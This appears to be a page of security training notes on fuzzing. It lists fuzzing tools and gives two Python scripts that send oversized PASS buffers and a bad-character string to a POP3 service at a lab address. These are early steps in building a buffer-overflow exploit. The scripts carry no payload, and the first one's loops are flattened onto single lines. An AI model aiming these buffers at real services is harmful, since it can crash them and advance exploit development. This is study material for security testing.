 # Tools

- American fuzzy lop is a security-oriented fuzzer: http://lcamtuf.coredump.cx/afl/
- A fork of AFL for fuzzing Windows binaries: https://github.com/googleprojectzero/winafl
  - Using WinAFL to Fizz WinRar (unacev2.dll): https://research.checkpoint.com/extracting-code-execution-from-winrar/
- FoRTE-Research's Fuzzing Benchmarks: https://github.com/FoRTE-Research/FoRTE-FuzzBench

# Python Network Fuzzer (SMTP?)

```python
#!/usr/bin/python  
import socket

# Create an array of buffers, from 10 to 2000, with increments of 20.  
#buffer = ‘A’ 2700

buffer=["A"]
counter=100  
while len(buffer) <= 30:      buffer.append("A"*counter)      counter=counter+200

for string in buffer:      print "Fuzzing PASS with %s bytes" % len(string)      s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)      connect=s.connect(('10.0.0.22',110))      s.recv(1024)      s.send('USER test\r\n')      s.recv(1024)      s.send('PASS ' + string + '\r\n')      s.send('QUIT\r\n')      s.close()
```

# Python Bad Character Scanner

```python
#!/usr/bin/python

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
 )

buffer="A"*2606 + "B"*4 + badchars
try:
     print "\nSending evil buffer..."
     s.connect(('10.0.0.22',110))
     data = s.recv(1024)
     s.send('USER username' +'\r\n')
     data = s.recv(1024)
     s.send('PASS ' + buffer + '\r\n')
     s.close()
     print "\nDone!"
except:
    print "Could not connect to POP3!"
```
